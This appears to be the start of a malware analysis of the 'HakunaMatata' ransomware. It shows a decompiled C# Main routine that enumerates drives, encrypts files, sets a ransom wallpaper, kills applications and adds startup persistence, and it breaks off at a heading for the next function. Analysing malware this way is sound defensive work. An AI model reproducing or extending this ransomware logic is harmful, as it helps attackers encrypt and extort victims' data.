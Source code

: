 <img src="/images/hakunamatata02.jpeg">

## Actions

```csharp
private static void Main(string[] args)
{
	if (Program.CHANGE_PROCESS_NAME != "")
	{
		Program.COPY_FILE(Program.CHANGE_PROCESS_NAME);
	}
	Program.ALL_DRIVES();
	Program.DRAW_WALLPAPER(Program.WALLPAPER_MESSAGE);
	Program.KILL_APPS_ENCRYPT_AGAIN();
	Program.STARTUP();
	Program.FOR_ALL = Program.AES_SALT(Program.RANDOM_VALUE, Program.SALT_ALL);
	Program.FOR_TRIPLE = Program.AES_SALT(Program.RANDOM_VALUE, Program.SALT_TRIPLE);
	if (Program.CHECK_REGEDIT())
	{
		Program.KEEP_RUNNING();
	}
}
```

## ALL_DRIVES function
